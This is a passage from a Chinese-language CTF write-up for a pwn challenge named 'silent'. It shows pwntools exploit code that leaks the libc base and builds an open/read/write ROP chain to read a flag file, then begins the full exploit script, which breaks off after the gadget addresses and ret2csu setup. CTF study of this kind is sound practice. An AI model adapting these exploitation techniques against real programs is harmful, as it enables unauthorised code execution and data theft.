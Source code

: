 ```python
libc_base = u64(r.recvuntil(b'\x7f').ljust(8,b'\x00')) - libc.sym['read']
# info(hex(libc_base))

open_addr = libc.sym['open'] + libc_base
write_addr = libc.sym['write'] + libc_base
read_addr = libc.sym['read'] + libc_base
```

最后就是orw的基本过程，这里`pop rsi`和`pop rdx`的gadgets在程序中找不到，只能去libc中找了。这里为什么不用ret2csu呢？因为用ret2csu中的call执行open函数会直接死掉，这里原因尚不明确，等知道了再来补。

```python
rdi = 0x400963
rsi = libc_base + 0x2601f
rdx = libc_base + 0x142c92

payload3 = flat([
    rdi, base_stage + 40 * 8,
    rsi, 0,
    open_addr,
    rdi, 3,
    rsi, elf.bss(),	# 地址随便填
    rdx, 0x40,
    read_addr,
    rdi, 1,
    write_addr,
    0
])
r.send(payload3)
r.interactive()
```

因为是复盘所以这里没有用题目给的libc，也不想再patch了。但是和实际情况基本没差，只要将exp中的libc加载成题目给的即可。

实际运行结果：

![image-20231106214615034](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231106214615034.png)

flag文件是自己创建在根目录下的。下面给出完整的exp：

```python
from pwn import*
context(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','splitw','-h']

elf = ELF('./silent')
libc = elf.libc
r = elf.process()

offset = (libc.sym['syscall'] + 27 - libc.sym['_IO_2_1_stdout_']) & 0xffffffffffffffff
info(hex(offset))
stdout = 0x601020
read_got = elf.got['read']
base_stage = elf.bss(0x80)
leave_ret = 0x400876
csu1 = 0x40095A
'''
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15
retn
'''
csu2 = 0x400940
```